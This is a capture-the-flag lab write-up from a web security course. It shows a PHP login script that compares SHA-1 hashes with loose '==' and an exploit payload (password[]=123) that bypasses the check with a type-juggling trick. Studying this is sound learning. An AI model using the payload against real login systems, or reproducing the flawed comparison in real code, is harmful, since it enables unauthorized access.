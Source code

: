 ```yaml
---
title: Simple Web 0x19(Lab - PHP Login)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Language Feature"
---
```


# Simple Web 0x19(Lab - PHP Login)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8081

## Background

## Source code
```php=
<?php
// BSides Ahmedabad CTF 2021: entrance

include 'flag.php';
$users = array(
    "admin" => "ed2b7b57b3b5be3e8d4246c69e4b513608ffb352",
    "guest" => "35675e68f4b5af7b995d9205ad0fc43842f16450"
);

function lookup($username) {
    global $users;
    return array_key_exists($username, $users) ? $users[$username] : "";
}

if (!empty($_POST['username']) && !empty($_POST['password'])) {
    $sha1pass = lookup($_POST['username']);
    if ($sha1pass == sha1($_POST['password'])) {
        if ($_POST['username'] !== 'guest') echo $FLAG;
        else echo 'Welcome guest!';
    } else {
        echo 'Login Failed!';
    }
} else {
    echo "You can login with guest:guest";
}
echo "<br>\n";
highlight_file(__file__);
?>

```

## Exploit
Must change `GET` method to `POST` method and add `Content-Type: application/x-www-form-urlencoded` in header

<font color="FF0000">**通靈**</font>
Payload: `username=123&password[]=123`
![](https://i.imgur.com/QGvpQnr.png)

## Reference
[bsides-ahmedabad-ctf-2021-writeups](https://blog.maple3142.net/2021/11/07/bsides-ahmedabad-ctf-2021-writeups/#entrance)